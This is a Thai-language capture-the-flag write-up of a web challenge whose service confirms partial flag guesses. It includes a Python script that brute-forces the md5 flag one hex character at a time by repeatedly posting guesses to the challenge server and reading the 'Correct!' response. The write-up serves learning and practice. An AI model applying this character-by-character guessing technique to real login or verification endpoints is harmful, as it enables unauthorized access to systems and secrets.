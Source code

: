 # Partial Flag Check Service

Tag: `web`

โจทย์ข้อนี้เราต้องเด่าว่า flag คืออะไร โดยที่มีคำใบ้ว่าเราสามารถที่จะเดาที่ละตัวแล้วตรวจสอบว่า flag นั้นถูกต้องไหม โดยที่ภายใน flag คือ md5

## Screen

![2-2-1.png](./images/2-2-1.png)

เมื่อกรอกผิด

![2-2-2.png](./images/2-2-2.png)

เมื่อเรากรอกถูกส่วนหนึ่ง

## Solving

จากการทดลองกรอก flag pattern เราพบว่า เป็นไปตามที่โจทย์อธิบาย

ความน่าจะเป็นของ md5 ที่ยาว 128 bits คือ $2^{128}$ ซึ่งเยอะมาก แต่โจทย์ได้ให้คำใบ้โดยการสามารถตรวจสอบได้ที่ละตัวอักษร เลยเหลือความน่าจะเป็นเพียง $16\cdot32$

เพื่อความรวดเร็วในการหาคำตอบที่ถูกต้องเราจึงเลือกที่จะเขียน script ในการ brute force

```py
import requests

URL = "https://websec.ctf.p7z.pw"

headers = {"Content-Type": "application/x-www-form-urlencoded"}
count = 0
flag = "FLAG{"
chars = "0123456789abcdef"

for _ in range(32):
    for c in chars:
        count += 1
        test = flag + c
        print(test)
        res = requests.post(URL, data={"password": test}, headers=headers).text
        if "Correct!" in res:
            flag = test
            break
        elif "Incorrect!" in res:
            continue
        else:
            flag = test
            break

print(flag + "}")
print(count)
```

## Result

![2-2-3](./images/2-2-3.png)

![2-2-4](./images/2-2-4.png)
